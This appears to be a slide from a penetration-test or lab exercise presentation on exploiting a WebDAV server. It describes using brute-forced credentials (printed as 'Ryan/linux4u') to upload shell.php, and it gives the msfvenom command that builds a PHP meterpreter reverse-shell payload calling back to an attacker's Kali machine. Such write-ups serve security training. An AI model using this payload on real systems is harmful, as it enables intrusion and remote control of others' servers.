

# Exploitation: WebDAV Connection/File Upload
01

02

03

Tools & Processes
After receiving credentials from the brute force attack the /secret_folder was accessed. This gave us the information on how to access the WebDAV server; as well as the credentials needed to do so. A remote connection was established with the WebDAV server and ‘shell.php’ was uploaded onto the server. Once the victim clicked on it, the reverse shell would be enacted.

Achievements
This allowed the connection to the webdav server of the company. A malicious file was uploaded to the victims to lie in wait. Once the payload was opened a reverse shell was created between the Kali box and Server1. A root shell can be achieved once in the meterpreter session on the victims PC.

Connecting to WebDav:
dav://192.168.1.105/webdav/
Credentials: Ryan/linux4u
Payload command: msfvenom –p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 > shell.php